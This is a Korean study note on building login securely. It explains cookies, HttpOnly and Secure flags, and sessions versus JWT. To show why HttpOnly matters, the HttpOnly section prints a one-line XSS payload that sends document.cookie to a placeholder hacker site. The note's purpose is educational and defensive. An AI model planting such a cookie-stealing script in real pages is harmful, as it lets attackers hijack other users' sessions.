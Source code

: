 ## **로그인 구현하기** 

### 1. Cookie에 대한 이해 
- 쿠키는 HTTP통신을 이용하는 서버 어디에서든지 쿠키를 주고 받을 수 있으며 클라이언트에서도 쿠키에 접근하고 관리할 수 있다.
- HTTP는 기본적으로 상태정보를 기억하지 못하기 때문에, 서버는 요청자가 누구인지, 같은 사람인지 식별할 수 없다.
- 이러한 문제를 해결하기 위해, 서버는 사용자의 식별정보를 쿠키에 저장하며, 쿠키에 저장된 정보를 통해 각 사용자를 구별한다.
- 수많은 사이트들에서 민감한 개인정보를 쿠키에 저장하고 있으며, 해커들은 다양한 방법으로 이 쿠키를 탈취하고자 하므로 보안에 신경을 써야 된다.

### 2. HTTP Only Cookies

쿠키는 클라이언트에서 자바스크립트로 조회할 수 있기 떄문에, 해커들은 자바스크립트로 쿠키를 가로채고자 시도를 하게 된다. 가장 대표적인 공격 중 하나가 CSS(Cross Site Scripting)이다. 
```jsx
location.href = "http://해커사이트/?cookies=" + document.cookie;
```
해커가 이와 같은 게시물을 공개게시판에 작성할 경우, 이 게시물을 읽은 다른 사용자는 알아차리기도 전에 자신의 모든 쿠키를 해커에게 전송하게 된다.

이러한 취약점을 해결하는 방법은, 바로 브라우저에서 쿠키에 접근할 수 없도록 제한하는 것이다. 이러한 역할을 하는 것이 바로 HTTP Only Cookie이다. 개발자가 다음과 같이 간단한 접미사를 쿠키 생성코드에 추가함으로써 활성화할 수 있다.
```jsx
Set-Cookie: 쿠키명 = 쿠기값; path=/; HttpOnly
```
가장 마지막에 HttpOnly라는 접미사만 추가함으로써 HTTP Only Cookie가 활성화 되며, 위에서 말한 XSS와 같은 공격이 차단되게 된다. HTTP Only Cookie를 설정하면 브라우저에서 해당 쿠키로 접근할 수 없게 되지만, 쿠키에 포함된 정보의 대부분이 브라우저에서 접근할 필요가 없기 때문에 HTTP Only Cookie는 기본적으로 적용하는 것이 좋다.

### 3. Secure Cookies
HTTP Only Cookie를 이용하면 Client에서 Javascript를 통한 쿠키 탈취문제를 예방할 수 있다. 하지만 Javascript가 아닌 네트워크를 직접 감청하여 쿠키를 가로챌 수 있다. 이러한 통신상의 정보유출을 막기위해 HTTPS 프로토콜을 사용하여 데이터를 암호화하는 방법이 주로 사용되고 있다. HTTPS를 사용하면 쿠키 또한 암호화되어 전송되기 때문에, 제 3자는 내용을 알 수 없다.

문제는 HTTPS로 전송되어야 할 정보가, 개발자의 부주의로 HTTP를 통해 유출되는 경우가 있다. 예를 들어 개발자가 다음과 같은 코드를 실수로 작성할 수 있다.
```jsx
<img src="http://www.example.com/images/logo.png" />
```
브라우저는 http://로 시작되는 위 코드를 만나면 암호화되지 않은 상태로 쿠키를 서버로 전달하게 됩니다. 해커는 이 암호화되지 않은 요청정보를 가로채서 쿠키를 탈취하게 됩니다.

이러한 사고를 방지하는 방법은 쿠키를 생성할 때 secure 접미사를 사용하는 것이다.
```jsx
Set-Cookie: 쿠키명=쿠키값; path=/; secure
```
위와 같이 마지막에 secure라는 접미사를 사용하여 쿠키를 생성하면, 브라우저는 HTTPS가 아닌 통신에서는 쿠키를 전송하지 않는다.

### 4. Session vs JWT(Json web Token)

**1.Sesstion(세션)**
- 전통적으로 많이 사용되어 온 방식으로, 서버 기반 인증방법이다.
- 세션 id를 사용해서 어떤 사용자가 서버에 로그인 되어있음이 지속되는 상태를 '세션'이라고 한다.
1. 사용자가 로그인에 성공하면 세션을 발행한다.
2. 그 세션을 브라우저에도 저장하고 서버 메모리에도 저장한다.
3. 인가가 필요한 요청을 보낼 때 서버에 세션값을 같이 보냄
4. 서버는 메모리에 저장된 값과 세션값을 비교해서 맞는 값이 있으면 성공

**단점은?**
- 세션이 서버에 저장되어 있기 때문에 사용자가 동시 다중 접속할 떄 메모리가 부족해진다.
- 확장성 부분에서 분산된 서버의 경우 세션 유지가 제대로 안되기 때문에 서버 확장이 어렵다.

**2. JWT (JSON Web Token)**
- 사용자가 로그인을 하면 토큰을 주는데, 이 토큰을 서버가 기억하고 있지는 않는다.(stateless)
- 세션을 대체하지 못하는 이유는 모든 사용자의 상태를 기억하고 있지 않는다.
- JWT는 이미 제공한 토큰을 뺏을 수 없어서 해커에게 토큰을 빼앗겨도 톸느을 무효화할 방법이 없음 => accessToken, refreshToken 두개의 토큰을 제공해야 한다.

### 참고
https://velog.io/@yaytomato/%ED%94%84%EB%A1%A0%ED%8A%B8%EC%97%90%EC%84%9C-%EC%95%88%EC%A0%84%ED%95%98%EA%B2%8C-%EB%A1%9C%EA%B7%B8%EC%9D%B8-%EC%B2%98%EB%A6%AC%ED%95%98%EA%B8%B0#-%EB%A1%9C%EA%B7%B8%EC%9D%B8%EC%9D%80-%EC%96%B4%EB%96%BB%EA%B2%8C-%EC%9D%B4%EB%A3%A8%EC%96%B4%EC%A7%80%EB%82%98
https://nsinc.tistory.com/121
